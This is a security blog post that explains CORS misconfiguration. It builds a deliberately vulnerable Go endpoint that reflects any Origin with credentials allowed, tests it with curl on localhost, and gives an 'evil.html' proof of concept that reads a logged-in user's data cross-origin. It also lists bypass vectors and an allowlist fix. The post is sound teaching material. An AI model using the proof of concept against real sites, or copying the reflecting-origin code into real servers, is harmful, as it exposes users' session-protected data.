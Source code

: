 +++
title = 'Are you from the Same Origin?'
date = 2025-06-01T12:26:43-04:00
draft = false
toc = false
categories = ['security']
tags = ['cors', 'client-side', 'misconfiguration']
series = ['']
+++

> Recently, when I debugged a web app, I had to add my own test domain to a CORS allowed list there. Then I remembered having seen a CORS vulnerability report before and decided to delve deeper into this topic.

### Create a Simple Web App with CORS Misconfiguration

Essentially, we require a web application with a straightforward login feature and a data endpoint. With misconfigured CORS, we should be able to see the sensitive data from another origin.

> Check out the code repo: https://github.com/ych3r/vuln-apps/tree/main/cors

Because we have a session check, you can't access the sensitive data without login.
```go
cookie, err := r.Cookie("session")
if err != nil || cookie.Value != "valid-session" {
    http.Error(w, "Unauthorized", http.StatusUnauthorized)
    return
}
```
![cors1](/cors/cors-1.png)

But once you login, you will get a session cookie (stored in your browser).
![cors2](/cors/cors-2.png)

Try again and you can see the sensitive data.
![cors3](/cors/cors-3.png)

Now we misconfigure the CORS.
```go
origin := r.Header.Get("Origin")
if origin != "" {
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")
}
```
This will allow all the origin to access it.

### Attack it

First, we make sure this vulnerability exists. Of course, we test with our own session, and bear with me, I'm too lazy to create another profile. Let's just imagine this sensitive data is not the victim's data.

```sh
╰─$ curl -i http://localhost:8080/api/data -H "Origin: xx.com" -H "Cookie: session=valid-session"
HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: xx.com
Content-Type: application/json
Date: Sat, 07 Jun 2025 17:29:12 GMT
Content-Length: 33

{"msg":"you should not see this"}
```

Great, this website accepts any domain we put in. Then, we create a `evil.html` that fetch data with the session cookie in the browser using `include`.
```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // when fetching a url, the browser automatically sets the Origin header.
            fetch("http://localhost:8080/api/data", {
                credentials: "include"
            }).then(res => res.text())
                .then(data => {
                    alert("data:\n" + data)
                });
        </script>
    </body>
</html>
```
Start a server: `python -m http.server` and open it in the same browser. We see the secret data.

![cors4](/cors/cors-4.png)

> What does it mean?

As long as we let the victim open `evil.html`, and they happened to have a live session on the service, we will be able to bypass the access control and read sensitive data using their session cookie.

We're not going to let it pop up obviously, but we can let it secretly send the data to our server.

### Theory Part

- What is SOP and why do we use it?
  - **Same-origin policy** doesn't allow website to interact with other domains. This is used to prevent malicious cross-domain interactions, like stealing private data.
  - SOP is implemented in the browser's internal engine.
- What is CORS and why do we use it?
  - **Cross-origin resource sharing** is the relaxation of the SOP. Because many websites do need cross-origin access to subdomains or third-party sites.
- What are the attack vectors?
  - **Wildcard in ACAO**: like the example above, it allows any origin to access data.
  - **Errors parsing Origin headers**: some domain on whitelist are using regular expressions, attackers can add prefix or suffix to it, e.g., `normal.com` -> `notnormal.com` or `normal.com` -> `normal.com.evil.net`
  - **null origin value**: the header could be "null". Use sandboxed `iframe` to test it.
  - **XSS via trust relationships**: if the trusted origin is vulnerable to XSS, attacker could still get sensitive data through it.
  - **Breaking TLS**: if 'http' is in the whitelist, attacker could use MitM to control that http site, and then exploit the CORS.
  - **Intranet access**: if there's no `Access-Control-Allow-Credentials: true`, then attacker can only see unauthenticated content (what's the point then). But the victim's browser can be used as a proxy to access internal sites.

### Make it Safe

Because it’s a configuration problem, the solution is fairly easy. We set up an allowed origin list, then other domains won't be able to fetch data.

```go
origin := r.Header.Get("Origin")
allowedOrigins := map[string]bool{
    "https://liuyuchen.dev": true,
}
if allowedOrigins[origin] {
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")
}
```
![cors5](/cors/cors-5.png)

---

ref:
- Cross-origin resource sharing (CORS) - https://portswigger.net/web-security/cors